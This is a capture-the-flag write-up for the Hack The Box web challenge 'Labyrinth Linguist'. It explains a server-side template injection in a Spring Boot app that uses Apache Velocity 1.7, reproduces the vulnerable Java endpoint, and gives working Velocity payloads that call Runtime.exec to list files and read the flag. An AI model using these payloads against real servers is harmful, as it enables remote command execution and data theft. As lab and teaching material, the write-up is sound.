 ```yaml
---
title: Labyrinth Linguist - Hack The Box
date: 2024-12-29
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Labyrinth Linguist

## Challenge Description

You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant
exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is
used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze.
It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned
against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with
the mutant and claim your last chance to make it out alive.

## Challenge Overview

This challenge presents a web application that simulates a translator for converting text into a fictional language
called **Voxalith**. Users can input text into a field, submit it, and view the translated output displayed on the page.

The application uses **Spring Boot** and **Apache Velocity** for templating, which is vulnerable to **Server-Side
Template Injection (SSTI)**. The objective is to exploit this vulnerability to execute arbitrary commands and retrieve
the flag.

![Labyrinth Linguist - Overview](/ctf/hack-the-box/challenges/web/labyrinth-linguist/overview.png)

## Code Review

### Technology Stack

- **Framework**: Spring Boot
- **Templating Engine**: Apache Velocity
- **Dependencies**:
  ```xml
  <dependency>
      <groupId>org.apache.velocity</groupId>
      <artifactId>velocity</artifactId>
      <version>1.7</version>
  </dependency>
  ```

The application leverages Apache Velocity for dynamic template rendering. The outdated version (1.7) is vulnerable to
SSTI, as identified in [CVE-2020-13936](https://www.mend.io/vulnerability-database/CVE-2020-13936).

### Main.java

The `Main.java` file contains the core logic, including the `/` endpoint that handles text input for translation.

#### Relevant Code Snippet:

```java
@RequestMapping("/")
@ResponseBody
String index(@RequestParam(required = false, name = "text") String textString) {
    if (textString == null) {
        textString = "Example text";
    }

    String template = "";

    try {
        template = readFileToString("/app/src/main/resources/templates/index.html", textString);
    } catch (IOException e) {
        e.printStackTrace();
    }

    RuntimeServices runtimeServices = RuntimeSingleton.getRuntimeServices();
    StringReader reader = new StringReader(template);

    org.apache.velocity.Template t = new org.apache.velocity.Template();
    t.setRuntimeServices(runtimeServices);
    try {
        t.setData(runtimeServices.parse(reader, "home"));
        t.initDocument();
        VelocityContext context = new VelocityContext();
        context.put("name", "World");

        StringWriter writer = new StringWriter();
        t.merge(context, writer);
        template = writer.toString();
    } catch (ParseException e) {
        e.printStackTrace();
    }

    return template;
}
```

#### Key Observations:

1. **Template Injection Point**:
    - The `textString` parameter is directly passed into the Velocity template engine without sanitization, making it
      vulnerable to SSTI.

2. **Dynamic Rendering**:
    - The `VelocityContext` dynamically renders templates, providing an entry point for executing malicious payloads.

## Exploitation: Server-Side Template Injection (SSTI)

### Vulnerability

Apache Velocity 1.7 is vulnerable to SSTI, allowing attackers to execute arbitrary Java code by injecting malicious
payloads into templates. The `textString` parameter serves as the injection point in this challenge.

### Proof of Concept (PoC)

#### Objective

Verify if the application processes injected Velocity expressions.

#### Payload:

```java
#set($x='<h1>Server-Side Template Injection</h1>') $x
```

#### Methodology:

1. Submit the payload through the input field or intercept the request using **Burp Suite**.
2. Observe the processed response. The presence of the `<h1>` tag in the output confirms SSTI vulnerability.

### Retrieving the Flag

#### Exploit Strategy

To retrieve the flag, we can inject a payload that executes arbitrary system commands. The following payload executes
the `ls /` command to list directory contents:

```java
#set($x='')##
#set($str=$x.class.forName("java.lang.String"))##
#set($chr=$x.class.forName("java.lang.Character"))##
#set($ex=$x.class.forName("java.lang.Runtime").getRuntime().exec('ls /'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

#### Result:

The output reveals the directory structure, including the flag file:

```
<h2 class="fire">0
app
bin
boot
dev
entrypoint.sh
etc
flagc4daff00be.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
</h2>
```

#### Reading the Flag

Using the following payload, we can read the content of `flagc4daff00be.txt`:

```java
#set($x='')##
#set($str=$x.class.forName("java.lang.String"))##
#set($chr=$x.class.forName("java.lang.Character"))##
#set($ex=$x.class.forName("java.lang.Runtime").getRuntime().exec('cat /flagc4daff00be.txt'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

#### Result:

The server returns the flag in the response:

```
HTB{f4k3_fl4g_f0r_t35t1ng}
```

We successfully exploited the SSTI vulnerability in Apache Velocity to retrieve the flag! 🎉

<ChallengeCard
    challengeType="web"
    challengeName="Labyrinth Linguist"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/649"
/>

## References

- [Apache Velocity SSTI - CVE-2020-13936](https://www.mend.io/vulnerability-database/CVE-2020-13936)
- [PortSwigger - SSTI Explained](https://portswigger.net/web-security/server-side-template-injection)
- [HackTricks - SSTI Exploitation](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [Gosecure - Template Injection Workshop](https://gosecure.github.io/template-injection-workshop/#6)
- [Antgarsil - Velocity](https://antgarsil.github.io/posts/velocity/)
